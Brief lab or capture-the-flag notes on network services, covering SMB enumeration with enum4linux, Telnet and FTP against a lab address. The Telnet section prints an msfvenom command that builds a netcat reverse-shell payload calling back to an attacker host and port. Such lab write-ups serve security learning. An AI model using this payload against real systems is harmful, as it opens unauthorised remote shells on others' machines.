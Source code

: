 # NETWORK SERVICES
```
IP = 10.10.48.30
```

### SMB
+ Server Message Block protocol is a response-request communication protocol.
+ Enumerated using `enum4linux -A $IP`

### Telnet
+ Telnet is an application protocol without encryption so it has been replaced by SSH.
+ Found a port open on 8012.
+ Connected using telnet to the port.
+ Got reverse shell using payload by the cmd:
	`msfvenom -p cmd/unix/reverse_netcat lhost=10.13.0.166 lport=4444 R`

### FTP
+ FTP runs in two modes - Active and Passive
